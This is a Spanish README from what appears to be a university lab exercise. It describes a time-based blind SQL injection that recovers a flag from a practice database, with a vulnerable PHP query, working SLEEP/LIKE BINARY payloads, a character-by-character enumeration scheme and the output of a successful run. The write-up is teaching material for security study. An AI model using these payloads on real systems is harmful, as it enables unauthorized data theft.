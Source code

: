 # blind-sql
Script de Python para lanzar una inyección ciega de SQL (Auditoría).

## Introducción
En la práctica primera de la asignatura se nos propone recuperar las flags de una base de datos. Sin embargo, solo tenemos acceso a una pantalla que indica si la query terminó con éxito o no.

Esto es lo que definimos como una blind-SQL, donde sabemos que podemos atacar la base de datos, pero no podemos recuperar datos de forma directa, por lo que solo nos queda tantearlos.

## Vulnerabilidad
Sabemos que la sentenica de SQL vulnerable es algo similar a la siguiente (PHP):
```php
$query = "SELECT flag from x WHERE y = $input";
```
Esto permite que podamos encadenar comandos de SQL después. Si lo encadenamos a una condición que dispare una espera, veremos que las respuestas del servidor tardan más tiempo dependiendo 
del éxito de la consulta. Podemos ver algunos ejemplos en este [repositorio de payloads](https://github.com/payloadbox/sql-injection-payload-list).

La siguiente payload es un ejemplo en el repositorio de [Blisqy](https://github.com/JohnTroony/Blisqy), y vemos que si la consulta resuelve en true, podemos modular el tiempo 
de respuesta de la petición.
```python
sqli = "' or if((*sql*),sleep(*time*),0) and '1'='1"
```
Si encadenamos esto a la sentencia `LIKE` de [SQL](https://stackoverflow.com/questions/14908142/sql-like-search-string-starts-with), podemos determinar con qué caracter empieza una flag.
El siguiente ejemplo recupera de la base de datos todas las entradas que empiecen por v:
```sql
SELECT * from flag WHERE (flag LIKE 'v%');
```

Por último, debemos añadir la palabra clave `BINARY` como [truco](https://www.scaler.com/topics/is-sql-case-sensitive/) para distinguir entre mayúsuclas y minúsculas (case-sensitive), 
ya que el campo por defecto NO lo es (varchar).

```sql
SELECT * from flag WHERE (flag LIKE BINARY 'v%');
```

## Payload
Si juntamos todos los ingredientes que acabamos de mencionar y nos aprovechamos de una flag conocida dentro de la base de datos, podemos terminar de probar la payload.

```sql
1 or if((flag LIKE BINARY 'vamosNano'),sleep(5),0);
```
En este caso, añado el `1` al inicio para que cuadre con la sentencia original (`where id = 1`). Al lanzar la query, el retraso de 5 segundos debería confirmar la presencia de la flag.

Si probamos con el comodín, también funciona:
```sql
1 or if((flag LIKE BINARY 'vamos%'),sleep(5),0);
```

## Automatización
El siguiente paso es automatizar el proceso para que la búsqueda ciega vaya probando con todos los caracteres ASCII.

```sql
1 or if((flag LIKE BINARY 'a%'),sleep(5),0);
1 or if((flag LIKE BINARY 'b%'),sleep(5),0);
...
```
Si una transacción tarda cinco segundos en completarse, entonces es que la query ha tenido éxito y que existe uno o más datos que comienzan por dicha letra. A partir de ese punto, 
solo habría que seguir explorando hasta encontrar todos los símbolos:
```sql
...
1 or if((flag LIKE BINARY 'S%'),sleep(5),0);
...
1 or if((flag LIKE BINARY 'Sw%'),sleep(5),0);
...
1 or if((flag LIKE BINARY 'Sw3%'),sleep(5),0);
...
1 or if((flag LIKE BINARY 'Sw3=%'),sleep(5),0);
# explora hasta que ninguna transacción tarda más de cinco segundos.
```

El actual estado del script es muy básico, ya que solo comprueba el primer camino que encuentra. Habría que sofisticarlo para que lleve un registro de los flags localizados y 
siga explorando por distintas ramas (por ejemplo, si dos valores comienzan por el mismo valor).

## Resultado
El resultado del script es un éxito, encuentra la flag al completo, y acierta con las mayúsculas en poco tiempo. El mayor de los retrasos es fruto del propio `sleep` de la inyección.
```bash
➜  flag3 py blind-injection.py
[0] The flag is: S
[1] The flag is: SW
[2] The flag is: SW5
[3] The flag is: SW5G
[4] The flag is: SW5GZ
[5] The flag is: SW5GZX
[6] The flag is: SW5GZXJ
[7] The flag is: SW5GZXJu
[8] The flag is: SW5GZXJuY
[9] The flag is: SW5GZXJuYW
[10] The flag is: SW5GZXJuYW5
[11] The flag is: SW5GZXJuYW5k
[12] The flag is: SW5GZXJuYW5kb
[13] The flag is: SW5GZXJuYW5kb1
[14] The flag is: SW5GZXJuYW5kb1d
[15] The flag is: SW5GZXJuYW5kb1dl
[16] The flag is: SW5GZXJuYW5kb1dlV
[17] The flag is: SW5GZXJuYW5kb1dlVH
[18] The flag is: SW5GZXJuYW5kb1dlVHJ
[19] The flag is: SW5GZXJuYW5kb1dlVHJ1
[20] The flag is: SW5GZXJuYW5kb1dlVHJ1c
[21] The flag is: SW5GZXJuYW5kb1dlVHJ1c3
[22] The flag is: SW5GZXJuYW5kb1dlVHJ1c3Q
[23] The flag is: SW5GZXJuYW5kb1dlVHJ1c3Q=
```

## Herramientas
* Burp Suite (community) - captura y análisis de paquetes
* Postman, cURL - pruebas de payload
* Python - script
